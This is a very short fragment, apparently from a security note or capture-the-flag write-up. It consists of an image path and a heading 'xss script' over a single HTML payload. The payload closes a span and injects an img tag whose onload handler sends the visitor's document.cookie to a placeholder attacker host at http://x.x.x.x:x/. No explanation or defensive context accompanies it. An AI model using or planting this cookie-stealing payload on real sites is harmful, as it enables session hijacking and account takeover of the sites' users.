 ### xss script
```html
</span><img onload="window.location = 'http://x.x.x.x:x/' + document.cookie">
```
